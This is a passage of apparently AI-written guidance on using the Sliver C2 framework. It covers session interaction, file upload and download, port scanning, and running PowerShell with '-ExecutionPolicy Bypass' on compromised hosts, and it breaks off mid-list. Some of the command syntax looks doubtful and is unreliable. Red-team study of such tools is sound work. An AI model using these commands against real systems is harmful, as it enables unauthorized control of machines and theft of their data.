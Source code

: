 4. **Interact with the active session**:
   ```bash
   use 1
   ```

5. **Perform post-exploitation activities** (e.g., uploading/downloading files, executing commands):
   ```bash
   whoami
   upload C:\local\file.txt C:\remote\file.txt
   download C:\remote\file.txt C:\local\file.txt
   ```

### Useful Built-in Commands

1. **Port scan**:
   ```bash
   run portscan <TARGET_IP> <PORT_RANGE>
   ```

2. **Search for files**:
   ```bash
   run search -d <DIRECTORY> -p <PATTERN>
   ```

3. **Gather system information**:
   ```bash
   run sysinfo
   ```

4. **Gather network information**:
   ```bash
   run netinfo
   ```

These commands provide a good starting point for using the Sliver C2 framework for both payload generation and post-exploitation activities. Always refer to the official Sliver documentation for the most accurate and comprehensive information.

Yes, you can run a PowerShell script from Sliver, a popular C2 framework used in red teaming operations. Sliver allows operators to execute commands and scripts on compromised systems, including PowerShell scripts, through its implants.

### Methods to Run a PowerShell Script from Sliver

1. **Using the `shell` Command**:
   The simplest way to run a PowerShell script from Sliver is by using the `shell` command. This command allows you to execute any command as if you were in a command prompt on the compromised system.

   ```plaintext
   shell powershell -ExecutionPolicy Bypass -File "C:\path\to\your\script.ps1"
   ```

   This command tells PowerShell to run the specified script with the `-ExecutionPolicy Bypass` flag to avoid policy restrictions.

2. **Inline PowerShell with `shell`**:
   You can also run inline PowerShell commands directly from the Sliver implant without using a script file. This is useful for quick commands or one-liners:
